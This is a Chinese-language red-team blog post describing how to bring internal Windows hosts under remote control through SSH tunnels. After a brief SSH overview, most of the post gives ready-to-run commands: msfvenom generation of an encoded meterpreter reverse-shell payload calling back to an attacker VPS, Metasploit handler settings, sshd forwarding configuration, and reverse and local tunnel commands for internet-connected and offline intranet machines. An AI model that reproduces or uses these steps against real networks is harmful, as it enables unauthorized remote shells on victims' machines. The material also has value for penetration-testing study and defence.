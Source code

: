 ```yaml
---
layout:     post
title:    利用ssh隧道上线内网主机
subtitle:   ssh隧道
date:       2019-10-17
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 渗透测试
    - 内网
---
```

# 利用ssh隧道上线内网主机
## 简介
SSH 为 Secure Shell 的缩写，SSH 为建立在应用层基础上的安全协议。SSH 是目前较可靠，专为远程登录会话和其他网络服务提供安全性的协议。利用 SSH 协议可以有效防止远程管理过程中的信息泄露问题。SSH最初是UNIX系统上的一个程序，后来又迅速扩展到其他操作平台。SSH在正确使用时可弥补网络中的漏洞。SSH客户端适用于多种平台。几乎所有UNIX平台—包括HP-UX、Linux、AIX、Solaris、Digital UNIX、Irix，以及其他平台，都可运行SSH。  
通俗点说就是一个专门用于传输网络数据的加密安全传输协议，也可用于实现VPN隧道或者绕过防火墙访问Internet服务。  

### SSH的用途
- 1.连接操作服务器    
- 2.内网穿透    
- 3.FQ  
- 4.远控上线  

### SSH命令浅析  
```
usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-b bind_address] [-c cipher_spec]
           [-D [bind_address:]port] [-E log_file] [-e escape_char]
           [-F configfile] [-I pkcs11] [-i identity_file]
           [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec]
           [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address]
           [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]]
           [user@]hostname [command]
```  
端口转发常用参数：  
```
-N #告诉SSH客户端，这个连接不需要执行任何命令。仅仅做端口转发
-f #告诉SSH客户端在后台运行
-L #本地转发
-R #远程转发
-D #动态转发
-C #数据压缩
-g #允许允许远程主机连接到建立的转发的端口，否则只是本地转发  
```
这里主要还是讲讲内网机器上线，分两个情况来讨论，有网无网情况。  
### 内网机器本地msf上线  
拓补如下：  
![191017_1](/img/191017_networkgraph1.png)  
开始，首先vps开启ssh转发  
```
# vi /etc/ssh/sshd_config
  AllowTcpForwarding yes
  GatewayPorts yes
  TCPKeepAlive yes
  PasswordAuthentication yes
# /etc/init.d/sshd restart
```
生成payload  
```
# msfvenom --platform Windows -p windows/meterpreter/reverse_tcp_rc4_dns lhost=1.1.1.1 lport=443 rc4password=nmsl -e x86/shikata_ga_nai -b '\x00' -i 5 -f exe -o dns_rc4.exe
```
然后习惯性先看看vps上443开了没  
```
# netstat -tulnp | grep ":443"
```
在本地的机器开启监听执行转发    
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_rc4_dns 
msf > set lport 53
msf > set lhost 192.168.1.1
msf > set rc4password nmsl
msf > set exitonsession false
msf > exploit -j

# netstat -tulnp | grep “:53”  #看看53开了没  
```
```
ssh -C -f -N -g -R 0.0.0.0:443:192.168.1.1:53 root@1.1.1.1 -p 22
```
目标机器执行payload，就可以接收到会话了。   
![191017_2](/img/191017_session.png)  
### 内网断网机器本地msf上线  
拓补如下，windows机器不通外网可以连一台不通外网的服务器，此服务器同网段中又有一台通外网的服务器：  
![191017_3](/img/191017_networkgraph.png)  
同样的生成payload  
```
msfvenom -p windows/meterpreter/reverse_tcp_rc4_dns lhost=192.168.10.3 lport=53 rc4password=nmsl -e x86/shikata_ga_nai -b '\x00' -i 5 -f exe -o rev.exe
```
vps开启监听  
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_rc4_dns 
msf > set lport 53
msf > set lhost 1.1.1.1
msf > set rc4password nmsl
msf > set exitonsession false
msf > exploit -j
```
然后去配置通外网的linux机器的ssh转发  
接着去不通外网的linux服务器上建立隧道  
```
# ssh -C -f -N -g -L 0.0.0.0:53:1.1.1.1:53 root@192.168.10.2 -p 22
# netstat -tulnp | grep “:53” #习惯性确认53开放  
``` 
windows执行payload就可以上线了   

## 总结与注意事项  
无论是meterpreter还是beacon都是相同的可以通过这种方式来进行上线，本质上是一样的。这里只是列举了ssh最基本的隧道用法，还有很多可以继续挖掘。  
这个方式也有个问题，毕竟是ip直连，一查看进程端口列表就能看到ip，也是容易暴露的。  
